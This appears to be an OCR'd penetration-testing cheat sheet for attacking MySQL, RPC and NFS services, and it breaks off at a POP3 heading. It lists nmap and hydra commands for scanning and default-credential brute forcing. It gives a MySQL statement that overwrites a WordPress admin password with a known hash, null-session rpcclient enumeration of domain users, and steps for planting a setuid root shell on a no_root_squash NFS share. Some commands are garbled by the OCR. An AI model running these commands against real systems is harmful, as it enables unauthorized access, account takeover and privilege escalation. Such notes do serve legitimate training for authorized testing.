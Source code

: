 -------------------------------------------------------------------------------------------------------------------------------------


MYSQL

    Vulnerability Scanning
        • nmap -p 3306 --script="+*mysql* and not brute and not dos and not fuzzer" -vv -oN mysql $ip

    Deafult Creds
       • hydra -s 3306 -C /usr/share/sparta/wordlists/mysql-default-userpass.txt  -u -f $ip ftp

    Public Exploit 
    Connect to MySQL with no password
    • mysql -u root -h 192.142.12.xx -p
    • select * from wp_users
    • UPDATE password
    •  `wp_users` SET `user_pass`= MD5('bypassed') WHERE `user_login`='admin';


-------------------------------------------------------------------------------------------------------------------------------------


RPC


    Find NFS Port
       •  nmap -p 111 --script=rpcinfo.nse -vv -oN nfs_port $ip

    Services Running
       • rpcinfo –p $ip
       • rpcbind -p  rpcinfo –p x.x.x.x


    Null Session/User Rpc login
       •  rpcclient -U "" $ip
             ▪ srvinfo 
             ▪ enumdomusers
             ▪ enumprivs
             ▪ enumalsgroups domain 
             ▪ lookupnames administrators
             ▪ querydominfo 
             ▪ enumdomusers 
             ▪ queryuser john
         
-------------------------------------------------------------------------------------------------------------------------------------


NFS

    Show Mountable NFS Shares
       •  nmap --script=nfs-showmount -oN mountable_shares $ip
       • showmount -e $ip

    List NFS exported shares. If 'rw,no_root_squash' is present, upload and execute sid-shell
       •  chown root:root sid-shell; chmod +s sid-shell
   
   
-------------------------------------------------------------------------------------------------------------------------------------


POP3
